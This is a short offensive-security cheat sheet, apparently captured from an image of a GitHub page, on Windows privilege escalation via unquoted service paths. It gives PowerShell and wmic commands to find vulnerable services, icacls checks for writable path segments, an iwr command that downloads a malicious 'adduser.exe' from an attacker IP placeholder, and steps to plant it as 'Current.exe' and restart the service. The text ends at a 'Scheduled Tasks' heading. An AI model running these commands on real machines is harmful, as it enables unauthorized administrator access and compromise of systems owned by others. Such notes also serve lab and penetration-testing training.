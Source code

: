 #### List services with binary path

```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName 
```

```
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```

#### Check if you have permissions to restart service

```
Start-Service <<SERVICE_NAME>>
```

```
Stop-Service <<SERVICE_NAME>>
```

#### Check permissions on the parts of the full path

Since we can restart the service ourselves, we don't need to issue a reboot to restart the service. Next, let's list the paths Windows uses to attempt locating the executable file of the service.

```
C:\Program.exe
C:\Program Files\Enterprise.exe
C:\Program Files\Enterprise Apps\Current.exe
C:\Program Files\Enterprise Apps\Current Version\GammaServ.exe
```

```
icacls "C:\"
```

```
icacls "C:\Program Files"
```

```
icacls "C:\Program Files\Enterprise Apps"
```

#### Replacing binary for malicious one 

```
iwr -uri http://<<IP>>/adduser.exe -Outfile Current.exe
```

```
copy .\Current.exe 'C:\Program Files\Enterprise Apps\Current.exe'
```

#### Start Service

```
Start-Service <<SERVICE_NAME>>
```
### Scheduled Tasks

